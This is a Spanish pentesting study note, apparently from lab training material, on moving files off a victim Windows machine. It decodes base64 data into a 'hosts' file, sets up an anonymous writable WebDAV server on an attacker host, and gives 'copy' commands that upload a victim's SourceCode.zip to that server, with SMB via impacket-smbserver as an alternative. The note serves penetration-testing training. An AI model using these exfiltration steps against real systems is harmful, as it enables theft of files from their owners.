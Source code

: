 ```
echo <base64> | base64 -d -w 0 > hosts`
```
- Convierte la cadena Base64 de vuelta a bytes originales.
- Guarda el archivo reconstruido en el atacante (`hosts`).
----------

# Subidas SMB

Las empresas suelen permitir tráfico saliente por **HTTP (TCP/80)** y **HTTPS (TCP/443)**, pero normalmente **bloquean SMB (TCP/445)** para protegerse de ataques. Una alternativa es usar **SMB sobre HTTP mediante WebDAV (RFC 4918)**, que permite que un servidor web funcione como servidor de archivos y admite HTTPS. Así, al intentar conectarse a un recurso compartido, el sistema primero usa SMB y, si no encuentra nada, recurre a HTTP/WebDAV.

Actores:

|Rol|Descripción|
|---|---|
|**Atacante**|Máquina que quiere subir/descargar archivos usando WebDAV o SMB. En este ejemplo: `192.168.49.128` (servidor WebDAV) y `192.168.49.129` (opcional para SMB).|
|**Víctima**|Máquina Windows que se conecta al recurso compartido para acceder o subir archivos: `C:\htb` en los ejemplos.|

> Nota: en un escenario de pruebas de penetración, **el atacante controla el servidor** y la víctima es la máquina que se conecta al recurso.

---

##### 1.  Instalación y ejecución de WebDAV en la máquina atacante
1. **Instalar módulos Python necesarios** (en máquina atacante):
```
sudo apt install pipx
pipx ensurepath 
pipx install wsgidav
pipx inject wsgidav cheroot lxml
```

2. **Ejecutar el servidor WebDAV**:    
    `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`
    - `--root=/tmp`: carpeta compartida.
    - `--auth=anonymous`: acceso anónimo (para pruebas).
    - Advertencias importantes:
        - **SSL recomendado** si se activa autenticación.
        - Acceso anónimo: la raíz (`/`) permite **escritura**, `/dir_browser` permite **solo lectura**.
##### 2. Conexión desde la máquina víctima (Windows)
- **Acceder a la raíz del servidor WebDAV**:
    `dir \\192.168.49.128\DavWWWRoot`
    - `DavWWWRoot` es una palabra clave especial del shell de Windows que apunta a la raíz del WebDAV.
    - También se puede apuntar a carpetas existentes:
        `\\192.168.49.128\sharefolder`

- **Subir archivos al servidor WebDAV**:
    `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.128\DavWWWRoot\ copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.128\sharefolder\`
##### 3. Alternativa SMB
- Si no hay bloqueos de SMB (TCP/445), se puede usar **SMB directamente** desde la máquina atacante usando `impacket-smbserver`.
- Esto sirve para subir o descargar archivos de la misma manera que WebDAV, pero usando SMB nativo.
